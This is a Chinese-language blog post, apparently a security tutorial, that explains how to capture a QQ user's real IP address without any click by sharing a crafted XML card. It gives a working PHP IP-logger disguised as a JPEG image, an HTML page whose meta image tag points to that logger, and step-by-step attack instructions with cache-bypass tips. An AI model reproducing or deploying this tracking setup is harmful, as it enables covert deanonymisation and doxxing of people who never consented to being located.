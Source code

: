```yaml
---
title: 利用QQ XML卡片获取真实IP
date: 2024-11-11 13:44:24
categories: [技术, 安全, 开源情报]
tags: [PHP]
---
```

<b>前言：</b>QQ提供了一个卡片功能：在QQ内打开一个网页后，点右上角分享可以把此网页分享到任意群聊或好友。这种分享和直接发链接的区别是，对方在聊天框看到的不是链接文本，而是一张包含了网站缩略图、站点标题和摘要的xml卡片。分享后，对方一旦点开聊天窗口窥屏，这个卡片（还有它身上的图片）就会被显示出来，等于此人访问了站点上的一张图片。基于此原理，我们有希望在对方完全不点击链接的情况下获取对方IP地址。

## 一、攻击环境搭建

这里使用的攻击环境如下：

* <b>Ubuntu</b> 22.04 <b>VPS</b>
* <b>Apache</b> 2.4.52 (Ubuntu)
* <b>PHP</b> 8.1.2-1ubuntu2.18

为了创建一张QQ卡片，我们需要一个http网站来存放攻击脚本。方便起见，这里假设你已经有了一个配置好的Apache网页服务器。

首先在网站的根目录内创建攻击脚本iptest.php如下：

PHP

```
<?php 

    //防注入函数
    function filter_dangerous_words($str){
        $str = str_replace("'", "‘", $str);
        $str = str_replace("\"", "“", $str);
        $str = str_replace("<", "《", $str);
        $str = str_replace(">", "》", $str);
        return $str;
    }
    
    //获取真实IP函数
    function getIP() {
        if (getenv('HTTP_CLIENT_IP')) {
        $ip = getenv('HTTP_CLIENT_IP');
        }
        elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $ip = getenv('HTTP_X_FORWARDED_FOR');
        }
        elseif (getenv('HTTP_X_FORWARDED')) {
        $ip = getenv('HTTP_X_FORWARDED');
        }
        elseif (getenv('HTTP_FORWARDED_FOR')) {
        $ip = getenv('HTTP_FORWARDED_FOR');
 
        }
        elseif (getenv('HTTP_FORWARDED')) {
        $ip = getenv('HTTP_FORWARDED');
        }
        else {
        $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
 
    //生成输出内容
    $ip = getIP();
    @$referer = $_SERVER['HTTP_REFERER']."\r\n";
    $ua = $_SERVER['HTTP_USER_AGENT']."\r\r";
    date_default_timezone_set("Asia/Shanghai");
    $date_ = date("Y.m.d,h:i:sa")."\r\n";
    
    //输出为hack.txt文件
    $hack = 'date: '.$date_.'ip:'.$ip."\r\n".'referer: '.$referer.'ua: '.$ua;
    $hack = filter_dangerous_words($hack);
    $op = fopen('hack.txt','a+');
    fwrite($op,$hack);
    fclose($op);
	  
	  //将此php文件伪装为一张jpg图片
	  //这样php返回的图片就会是同目录下的icon.jpg文件。
	$im = imagecreatefromjpeg("icon.jpg");
    header('Content-Type: image/jpeg');
    imagejpeg($im);
    imagedestroy($im);
 ?>
```

然后，为了生成卡片，我们还需要制作一个简单的网页iptest.html（与iptest.php、icon.jpg这两个文件处于同一个目录下），该网页的内容就是卡片上的内容：

HTML

```
<!DOCTYPE html>
<html>
<head>
	<meta itemprop="name" content="XML卡片标题" />
	<meta itemprop="description" content="XML卡片描述" />
	<meta itemprop="image" content="文件路径，本例中为iptest.php?abcdefg" />
	<title>标题</title>
</head>
<body>
</body>
</html>
```

这里需要注意的是，iptest.php文件链接需要在其后带一串无效参数才能正常转换为短链接，此处用了abcdefg。因为qq分享机制的原因，导致直接分享出去的xml卡片会先将图片地址转换为腾讯的图床，所以探测链接不会生效。

在两个文件上传服务器之后，确保再上传一张命名为icon.jpg的图片文件就配置完毕了。

## 二、攻击方法

出于方便，攻击时不采用QQ插件发送方式，而采用直接分享生成的XML卡片。步骤如下：

1. 首先qq内打开iptest.html文件的链接，点击右上角，此时还未选择分享方式，未获取到ip；
2. 然后点击“好友”，到达选择好友界面，此时云端生成xml卡片，iptest.php文件链接被转换为腾讯短链，获取到了短链服务器的ip；
3. 选择好友，确认是否发送，本机预览消息，此时获取到本机ip；
4. 点击发送，聊天记录漫游到服务器，此时获取到腾讯服务器ip；
5. 目标点开聊天记录，自动读取了xml卡片，此时获取到目标ip。

上面说明获取顺序的时候，是按操作顺序写的，实际上获取到的服务器ip记录时间不一定按照你的操作顺序记录。但因为目标是最后一个收到的，所以最后一个基本就是目标ip。不排除特殊情况，需要随机应变。鉴于单次攻击会获取到多个ip，记得每一次探测后删除hack.txt文件或改名，以免下一次使用时搞混。

## 三、Q&A

**Q：**配置好攻击环境后能反复使用，以在hack.txt中记录多个目标ip吗？

**A：**不能。攻击链接是一次性的。

首先是所有的链接都会受到缓存的限制，所以一个iptest.php链接只能对一个目标生效一次，可以通过修改后面的无效参数（刚才的abcdef）来更新缓存。

其次就是某些时候iptest.html文件链接在qq内打开时会存在该页面本身被缓存的情况，导致iptest.php文件链接不会更新，缓存自然不会更新，所以无法成功获取ip，这种情况下hack.txt不会记录ip，所以比较好判断。可以通过更改iptest.html文件名来更新页面的缓存。
